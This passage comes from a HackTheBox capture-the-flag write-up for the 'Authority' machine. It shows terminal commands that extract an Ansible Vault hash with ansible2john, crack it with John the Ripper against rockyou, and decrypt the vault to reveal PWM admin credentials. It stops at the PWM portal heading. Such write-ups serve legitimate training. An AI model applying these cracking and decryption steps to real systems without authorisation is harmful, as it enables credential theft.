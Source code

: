 Using the guide from [https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible](https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/ansible) it seems that I can use **ansible2john** to extract a hash to crack with john. [https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/](https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/) goes a little more in depth as to the steps. Luckily for me the admin_login and admin_password have the same vault key for pwm.


```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $cat creds | xargs | sed 's/ /\n/g'
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $/usr/share/john/ansible2john.py creds > vault.in
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $john vault.in --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 SSE2 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (creds)
1g 0:00:00:27 DONE (2023-08-28 20:17) 0.03687g/s 1467p/s 1467c/s 1467C/s 001983..victor2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $john vault.in --show
creds:!@#$%^&*

1 password hash cracked, 0 left
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $cat pwm_admin_login | ansible-vault decrypt
Vault password: 
Decryption successful
svc_pwm┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Authority]
└──╼ $cat pwm_admin_password | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23
```

Now that we've got the PWM login credentials we can ... oh right I hadn't thought this far yet. I took a look at [the PWM github page](https://github.com/pwm-project/pwm) and found that the default web portal page for configuration is port 8443, and that port is open on this machine. 

<h1>User as svc_ldap</h1>

<h2>PWM - port 8443</h2>
